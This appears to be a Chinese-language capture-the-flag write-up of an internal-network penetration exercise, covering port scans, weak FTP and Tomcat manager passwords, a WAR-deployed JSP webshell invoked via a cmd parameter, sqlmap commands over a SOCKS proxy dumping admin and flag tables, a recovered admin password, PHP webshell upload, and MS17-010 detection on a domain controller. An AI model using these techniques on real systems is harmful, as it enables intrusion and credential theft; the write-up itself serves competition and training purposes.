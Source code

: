 192.168.6.15是一台FTP服务器。

```Bash
[+] 192.168.6.15:         - 192.168.6.15:22 - TCP OPEN
[+] 192.168.6.15:         - 192.168.6.15:21 - TCP OPEN
```

FTP服务器存在弱口令漏洞，可以通过123456登录，里面存着192.168.6.17的源码（非完全一致）。里面也有mail系统邮箱和密码的泄漏。这台服务器不存在flag，不撸下来其实问题也不大。

192.168.6.16是一个邮件系统。

![3](https://mo-xiaoxi.github.io/img/post/429/2.png)

如果撸下来前面的FTP服务器，就可以通过源码中泄漏的用户名和密码登录。此外，这个邮箱也是一个flag。

```bash
[+] 192.168.6.16:         - 192.168.6.16:22 - TCP OPEN
[+] 192.168.6.16:         - 192.168.6.16:80 - TCP OPEN
[+] 192.168.6.16:         - 192.168.6.16:3306 - TCP OPEN
[+] 192.168.6.16:         - 192.168.6.16:8009 - TCP OPEN
[+] 192.168.6.16:         - 192.168.6.16:8080 - TCP OPEN

```

16机器开着8080，是一个tomcat，可以通过弱口令manager登录，直接部署war包就能得到root权限，获得webshell。（<http://192.168.6.16:8080/manager/html>，http://192.168.6.16:8080/jsp/jsp.jsp?cmd=whoami）

拿到webshell后，可以得到一个flag。然后查看源码，查询数据库也可以得到邮件名字得到flag。此外，在这个服务器上的根目录也有一个flag。

这里很蛋疼，部署war包得到的是jsp的马，而蚁剑没办法管理jsp的马。有一个思路就是通过这个jsp，往80端口的php mail服务器写一个php的马，再通过蚁剑管理。



192.168.6.17是内网管理网站？。这里AWVS通过HTTP代理扫描了一下，又给了一个惊喜，直接给了sql盲注(http://192.168.6.17/message.php，id存在盲注)。

然后，通过socks代理直接sql注入即可。

```bash
python sqlmap.py --proxy=socks5://172.16.8.3:1088 -u "http://192.168.6.17/message.php?id=1" -D my_oa -T flag --dump
python sqlmap.py --proxy=socks5://172.16.8.3:1088 -u "http://192.168.6.17/message.php?id=1" -D my_oa -T admin --dump
```

Flag表中存在一个flag，这里注入出admin的密码后，反解一下。admin,37s984pass。

登录后，有一个上传点可以直接上传php马，然后获得webshell，翻一下目录也可以得到一个flag。

#### 域渗透

最后是一台windows服务器，应该就是域控制器，通过msf可以得到这台windows存在MS17-010的洞。

```bash
[+] 192.168.6.200:        - 192.168.6.200:53 - TCP OPEN
[+] 192.168.6.200:        - 192.168.6.200:80 - TCP OPEN
[+] 192.168.6.200:        - 192.168.6.200:135 - TCP OPEN
[+] 192.168.6.200:        - 192.168.6.200:445 - TCP OPEN
[+] 192.168.6.200:        - 192.168.6.200:3389 - TCP OPEN
192.168.6.200:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (64-bit)

```
